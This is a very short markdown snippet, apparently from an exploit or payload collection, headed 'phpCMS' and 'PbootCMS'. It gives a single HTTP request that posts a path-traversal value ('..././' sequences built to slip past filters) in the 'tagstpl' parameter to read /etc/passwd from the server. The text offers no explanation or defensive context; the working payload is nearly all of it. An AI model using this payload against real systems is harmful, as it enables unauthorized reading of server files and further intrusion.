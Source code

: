 # phpCMS


## PbootCMS


```
post /index.php/Tag

tagstpl=..././..././..././..././..././..././..././..././etc/passwd
```
